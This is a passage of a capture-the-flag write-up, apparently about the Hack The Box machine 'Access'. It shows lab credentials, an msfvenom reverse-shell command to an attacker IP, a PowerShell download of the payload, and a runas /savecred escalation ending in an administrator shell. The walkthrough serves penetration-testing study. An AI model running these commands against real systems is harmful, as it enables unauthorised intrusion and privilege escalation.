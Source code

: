<pre class="wp-block-preformatted">README_FIRST.txt<br />"Login:" = "sa"<br />"Password:" = "htrcy@HXeryNJCTRHcnb45CJRY"</pre>

Looks like SQL db user & password  


I checked to see if any saved creds. A lazy admin would save credentials using cmdkey. It creates, lists, and deletes stored user names and passwords or credentials.<figure class="wp-block-image">

<img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/creds.png?w=680" alt="" class="wp-image-462" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/creds.png?w=774 774w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/creds.png?resize=300%2C79 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/11/creds.png?resize=768%2C201 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> <figcaption>always noting the creds I capture</figcaption></figure> 

So this admin seems to be quite lazy &#8211; including the password inside this file. I check to see if he has saved any credentials to the machine and bingo!  


<pre class="wp-block-preformatted">C:\temp\scripts&gt;cmdkey /list<br />Currently stored credentials:<br /><code>Target: Domain:interactive=ACCESS\Administrator                                                   Type: Domain PasswordUser: ACCESS\Administrator</code><br />C:\temp\scripts&gt;</pre>

So the Administrator password is stored! 

I wanted to upgrade to a proper shell as using Telnet is very difficult to use due to not being able to delete letters or press up on the keyboard to replay things in the buffer.

So know thing that .exes cant be run and that there are .vbs files in the scripts folder&nbsp; &#8211; maybe the user can run .vbs files?  


<pre class="wp-block-preformatted">msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.234 LPORT=443 --platform windows -a x64 -f vbs -o shell.vbs</pre>

I created a .vbs file, downloaded it to the server and tried to run it but no luck &#8211; looks like .vbs files can only be run by the administrator.  


<pre class="wp-block-preformatted">powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.234/shell.vbs','C:\temp\scripts\shell.vbs')"</pre>

<pre class="wp-block-preformatted">C:\temp\scripts&gt;shell.vbs<br />Access is denied.<br />C:\temp\scripts&gt;</pre>

<pre class="wp-block-preformatted">For the vbs scripts: <br />Go to windows Services and stop ALL SQL related services.<br />Open command prompt with elevated privileges (Administrator).<br />paste the following commands in command prompt for each script and click ENTER…<br />1. cmd.exe /c WScript.exe "c:\temp\scripts\SQLOpenFirewallPorts.vbs" "C:\Windows\system32" "c:\temp\logs\"</pre>

I need to use the runas command as it has a flag /savecreds which takes advantage of the administrator saved creds on the system.  


So following the guide in the README_FIRST.txt I created this runas command with a nc listener on port 443.  


<pre class="wp-block-preformatted">runas /user:Administrator /noprofile /savecred "cmd.exe /c WScript.exe "c:\temp\scripts\shell.vbs""</pre>

<pre class="wp-block-preformatted">[root:~/htb]# nc -lnvp 443<br />listening on [any] 443 …<br />connect to [10.10.14.234] from (UNKNOWN) [10.10.10.98] 49158<br />Microsoft Windows [Version 6.1.7600]<br />Copyright (c) 2009 Microsoft Corporation.  All rights reserved.<br />C:\Windows\system32&gt;type c:\users\administrator\desktop\root.txt<br />type c:\users\administrator\desktop\root.txt<br />Access is denied.<br />C:\Windows\system32&gt;whoami<br />whoami<br />access\administrator<br />C:\Windows\system32&gt;</pre>
